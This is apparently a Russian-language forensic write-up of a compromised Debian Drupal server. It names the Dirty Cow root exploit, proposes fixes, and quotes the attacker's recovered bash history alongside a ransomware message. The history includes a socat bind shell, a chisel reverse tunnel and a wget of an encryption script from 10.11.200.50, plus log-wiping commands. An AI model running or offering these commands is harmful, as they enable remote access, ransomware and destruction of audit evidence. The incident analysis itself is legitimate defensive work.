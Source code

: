 Информация о системе:
`Linux version 3.16.0-4-amd64 (debian-kernel@lists.debian.org) (gcc version 4.8.4 (Debian 4.8.4-1) ) #1 SMP Debian 3.16.7-ckt9-2 (2015-04-13)`

Данное ядро уязвимо к CVE-2016-5195 "Dirty Cow":

Используя [POC](https://gist.github.com/rverton/e9d4ff65d703a9084e85fa9df083c679) получаем консоль от пользовтеля root.



### Фикс

- использовать более криптостойкий пароль
- использование последней версии drupal
- обновить линукс до последней версии

### Востановление системы

Как уже говорилось, при конекте на машину по ssh получаем следущее сообщение 

`Oh! Hello there! You've been infected by GachiRansom, send 300$ to paypal:b.harrington@gmail.com to get your unecnryption key.` 

Зайдя под рутом и проверив его историю, найдем следущие подозрительные действия.

```bash
setsid /var/www/html/socat tcp-l:8081,reuseaddr,fork exec:/bin/bash,pty,setsid,setpgid,stderr,ctty&&exit
id;echo 0 > /proc/sys/vm/dirty_writeback_centisecs;exit
setsid /var/www/html/chisel client 10.11.200.50:8083 R:socks 2>1 > /dev/null && exit
wget http://10.11.200.50/encr.sh -O /var/www/html/encr.sh;exit
chmod -R 777 /var/www/html;exit
/var/www/html/encr.sh;exit
rm -f /var/www/html/shell.php;exit
rm -f /var/www/html/encr.sh;exit
rm -f /var/www/html/sploit.c;exit
setsid /var/www/html/socat tcp-l:8081,reuseaddr,fork exec:/bin/bash,pty,setsid,setpgid,stderr,ctty&&exit
id;echo 0 > /proc/sys/vm/dirty_writeback_centisecs;exit
setsid /var/www/html/chisel client 10.11.200.50:8083 R:socks 2>1 > /dev/null && exit
cd /var/www/html/
rm *.encr chisel* socat* sploit*
pkill -f socat; pkill -f chisel
cp /home/debian/drupal-7.54/*.php /var/www/html
cd /var/www/html/
rm *.encr chisel* socat* sploit*
pkill -f socat; pkill -f chisel
cp /home/debian/drupal-7.54/*.php /var/www/html
cd /var/www/html/
rm *.encr chisel* socat* sploit*
pkill -f socat; pkill -f chisel
cp /home/debian/drupal-7.54/*.php /var/www/html
cd /var/www/html/; rm *.encr chisel* socat* sploit*; pkill -f socat; pkill -f chisel; cp /home/debian/drupal-7.54/*.php /var/www/html
echo "" > /var/log/apache2/other_vhosts_access.log; echo "" > /var/log/audit/audit.log
setsid /var/www/html/socat tcp-l:8081,reuseaddr,fork exec:/bin/bash,pty,setsid,setpgid,stderr,ctty&&exit
id;echo 0 > /proc/sys/vm/dirty_writeback_centisecs;exit
setsid /var/www/html/chisel client 10.11.200.50:8083 R:socks 2>1 > /dev/null && exit
wget http://10.11.200.50/encr.sh -O /var/www/html/encr.sh;exit
chmod -R 777 /var/www/html;exit
/var/www/html/encr.sh;exit
rm -f /var/www/html/shell.php;exit
rm -f /var/www/html/encr.sh;exit
rm -f /var/www/html/sploit.c;exit
```